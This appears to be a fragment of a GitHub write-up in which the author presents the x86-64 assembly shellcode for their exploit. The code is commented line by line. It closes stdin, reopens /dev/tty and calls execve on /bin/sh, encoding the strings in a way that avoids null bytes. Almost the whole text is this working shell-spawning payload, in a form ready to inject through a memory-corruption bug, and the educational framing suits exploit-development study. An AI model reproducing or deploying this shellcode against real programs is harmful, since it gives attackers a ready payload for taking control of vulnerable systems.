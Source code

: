 This is the shellcode that I will be using for my exploit.
```
section .text ; Text section for code
global _start ; Begins execution at _start
_start:

; Close STDIN
xor rax, rax ; Clears the RAX register
xor rdi, rdi ; Zero represents STDIN
mov al, 3 ; Syscall number for close()
syscall ; Calls close(0)

; Opening "/dev/tty"
push rax ; Push a string terminator onto the stack
mov rdi, 0x7974742f7665642f ; Move "/dev/tty" (written backwards in ASCII) into RDI.
                        ; We can move this all at once because the string is exactly 8 bytes long
push rdi ; Push the string "/dev/tty" onto the stack.
push rsp ; Push a pointer to the string onto the stack.
pop rdi ; RDI now has a pointer to the string "/dev/tty"
        ; These last two lines are equivalent to doing "mov rdi, rsp"
push rax ; Push a NULL byte onto the stack
pop rsi ; Make RSI NULL
        ; These last two lines are equivalent to doing "mov rsi, 0"
mov si, 0x2702 ; Flag for O_RDWR
mov al, 0x2 ; Syscall for sys_open
syscall ; calls sys_open("/dev/tty", O_RDWR)

; Get 59 in RAX
xor rax, rax ; Clear the RAX register
mov al, 59 ; Syscall for execve

; Push a string terminator onto the stack
xor rbx, rbx ; Sets RBX to NULL
push rbx ; Pushes a NULL byte onto the stack

; Push /bin/sh onto the stack, and get a pointer to it in RDI
mov ebx, 0x68732f6e ; Moves "n/sh" (written backwards in ASCII) into lower-end bits of RBX
shl rbx, 16 ; Pushes "n/sh" to the left to make more room for 2 more bytes in RBX
mov bx, 0x6962 ; Move "bi" into lower-end bits of RBX. RBX is now equal to "bin/sh" written backwards
shl rbx, 16 ; Makes 2 extra bytes of room in RBX
mov bh, 0x2f ; "Moves /" into RBX. RBX is now equal to "\x00/bin/sh" written backwards
             ; Note that we are moving 0x2f into bh, not bl. So there is a NULL byte at the beginning
push rbx ; Push the string onto the stack
mov rdi, rsp ; Get a pointer to the string "\x00/bin/sh" in RDI
add rdi, 1 ; Add one to RDI, which will get rid of the NULL byte at the beginning.
           ; RDI now points to a string that equals "/bin/sh"

; Make these values NULL
xor rsi, rsi
xor rdx, rdx

; Call execve()
syscall
```
